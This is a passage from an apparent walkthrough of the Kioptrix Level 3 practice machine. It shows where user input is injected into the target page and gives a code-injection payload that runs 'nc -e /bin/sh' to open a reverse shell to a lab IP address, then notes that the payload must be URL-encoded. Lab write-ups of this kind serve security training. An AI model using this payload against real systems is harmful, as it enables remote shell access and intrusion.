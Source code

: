 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%203/Images/Looking%20Through.png?raw=true)

From this we deducted that payload comes after ‘); and between \${payload}
characters.

We can now craft our own malicious payload via URL.

The payload is the following: ');\${system('nc -e /bin/sh 192.168.20.144
443')};\#

First the payload has to be url encoded:

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%203/Images/URL%20encoded.png?raw=true)
